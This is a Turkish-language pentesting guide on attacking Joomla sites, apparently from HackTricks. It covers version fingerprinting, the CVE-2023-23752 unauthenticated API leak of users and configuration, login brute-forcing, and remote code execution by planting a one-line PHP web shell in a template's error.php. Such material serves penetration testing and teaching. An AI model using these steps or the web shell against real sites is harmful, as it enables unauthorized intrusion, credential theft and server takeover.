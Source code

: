 # Joomla

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**Mobil Güvenlik** konusundaki uzmanlığınızı 8kSec Akademisi ile derinleştirin. Kendi hızınıza göre ilerleyerek iOS ve Android güvenliğini öğrenin ve sertifika alın:

{% embed url="https://academy.8ksec.io/" %}

### Joomla İstatistikleri

Joomla, Joomla kurulumlarında kullanılan Joomla, PHP ve veritabanı sürümleri ile sunucu işletim sistemlerinin dağılımı gibi bazı anonim [kullanım istatistiklerini](https://developer.joomla.org/about/stats.html) toplar. Bu veriler, kamuya açık [API'leri](https://developer.joomla.org/about/stats/api.html) aracılığıyla sorgulanabilir.
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Enumeration

### Discovery/Footprinting

* **meta**'yı kontrol et
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
* robots.txt
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
* README.txt
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### Versiyon

* **/administrator/manifests/files/joomla.xml** dosyasında versiyonu görebilirsiniz.
* **/language/en-GB/en-GB.xml** dosyasında Joomla'nın versiyonunu alabilirsiniz.
* **plugins/system/cache/cache.xml** dosyasında yaklaşık bir versiyonu görebilirsiniz.

### Otomatik
```bash
droopescan scan joomla --url http://joomla-site.local/
```
In[ **80,443 - Pentesting Web Methodology, Joomla'yı tarayabilen CMS tarayıcıları hakkında bir bölüm vardır**](./#cms-scanners).

### API Kimlik Doğrulaması Olmadan Bilgi Sızdırma:

4.0.0 ile 4.2.7 arasındaki sürümler, kimlik doğrulaması olmadan bilgi sızdırma (CVE-2023-23752) açığına sahiptir ve bu, kimlik bilgilerini ve diğer bilgileri dökebilir.

* Kullanıcılar: `http://<host>/api/v1/users?public=true`
* Konfigürasyon Dosyası: `http://<host>/api/index.php/v1/config/application?public=true`

**MSF Modülü**: `scanner/http/joomla_api_improper_access_checks` veya ruby script: [51334](https://www.exploit-db.com/exploits/51334)

### Kaba Kuvvet

Giriş denemesi yapmak için bu [script](https://github.com/ajnik/joomla-bruteforce)'i kullanabilirsiniz.
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

Eğer **admin kimlik bilgilerini** elde etmeyi başardıysanız, **içinde RCE** elde etmek için bir **PHP kodu** parçası ekleyerek **RCE** yapabilirsiniz. Bunu **şablonu özelleştirerek** yapabiliriz.

1. **Aşağıda `Configuration` altında sol altta bulunan **`Templates`** üzerine tıklayın** ve şablonlar menüsünü açın.
2. Bir **şablon** adının üzerine tıklayın. `Template` sütun başlığı altında **`protostar`** seçelim. Bu bizi **`Templates: Customise`** sayfasına götürecek.
3. Son olarak, **sayfa kaynağını** açmak için bir sayfaya tıklayabilirsiniz. **`error.php`** sayfasını seçelim. **Kod yürütme elde etmek için bir PHP tek satır ekleyeceğiz**:
1. **`system($_GET['cmd']);`**
4. **Kaydet ve Kapat**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## XSS'den RCE'ye

* [**JoomSploit**](https://github.com/nowak0x01/JoomSploit): Joomla Sömürü Scripti, **XSS'yi RCE veya Diğer Kritik Güvenlik Açıklarına Yükseltir**. Daha fazla bilgi için [**bu gönderiye**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html) göz atın. **Joomla Sürümleri 5.X.X, 4.X.X ve 3.X.X için destek sağlar ve şunları yapmanıza olanak tanır:**
* _**Yetki Yükseltme:**_ Joomla'da bir kullanıcı oluşturur.
* _**(RCE) Yerleşik Şablonları Düzenleme:**_ Joomla'daki Yerleşik Şablonları düzenler.
* _**(Özel) Özel Sömürü:**_ Üçüncü Taraf Joomla Eklentileri için Özel Sömürü.

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**Mobil Güvenlik** konusundaki uzmanlığınızı 8kSec Akademisi ile derinleştirin. Kendi hızınıza göre kurslarımızla iOS ve Android güvenliğini öğrenin ve sertifika kazanın:

{% embed url="https://academy.8ksec.io/" %}


{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

